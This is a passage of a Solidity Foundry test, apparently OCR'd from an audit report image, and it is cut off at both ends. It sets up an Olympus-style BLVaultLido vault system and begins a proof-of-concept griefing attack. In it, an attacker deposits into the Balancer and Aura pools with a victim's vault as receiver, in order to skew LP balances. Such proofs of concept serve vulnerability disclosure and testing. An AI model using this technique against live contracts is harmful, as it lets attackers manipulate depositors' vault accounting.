 ```solidity
          0
      );
      
      // Initialize system
      {
          vm.startPrank(executor);

          // Initialize modules
          kernel.executeAction(Actions.InstallModule, address(blreg));

          // Activate policies
          kernel.executeAction(Actions.ActivatePolicy, address(vaultManager));
          kernel.executeAction(Actions.ActivatePolicy, address(this));
          vm.stopPrank();
      }

       // grant this contract liquidity vault admin role
      {
          rolesAdmin.saveRole("liquidityvault_admin", address(this));
      }

      // Activate Vault Manager
      {
          vaultManager.activate();
      }

      // Prepare user's account
      // Create user vault
      vm.startPrank(user);
      userVault = BLVaultLido(vaultManager.deployVault());

      // Approve wstETH to user's vault
      wsteth.approve(address(userVault), type(uint256).max);
      vm.stopPrank();
  }

  function testGriefDeposit() public {
      //////////////////
      /// TEST SETUP ///
      //////////////////
      uint256 ohmAmt = 1000e9;
      uint256 wstethAmt = 1e18;

      // send some OHM to attacker
      vm.prank(0x1EFFD55a8646F7dC67c7578C20ce575cefeB1120);
      ohm.transfer(user, ohmAmt);

      address victim = address(123);
      vm.prank(user);
      wsteth.transfer(victim, wstethAmt);

      vm.startPrank(victim);
      BLVaultLido victimVault = BLVaultLido(vaultManager.deployVault());
      wsteth.approve(address(victimVault), type(uint256).max);

      // 1. victim performs a deposit
      uint256 victimLpAmt = victimVault.deposit(wstethAmt, 0);
      vm.stopPrank();

      // 2. attacker manually deposits into bal pool, then aura pool with vault as the receiver
      vm.startPrank(user);
      _depositInPoolWithVaultAsReceiver(ohmAmt, wstethAmt * 5);
      // Check that attacker has more LP than victim
```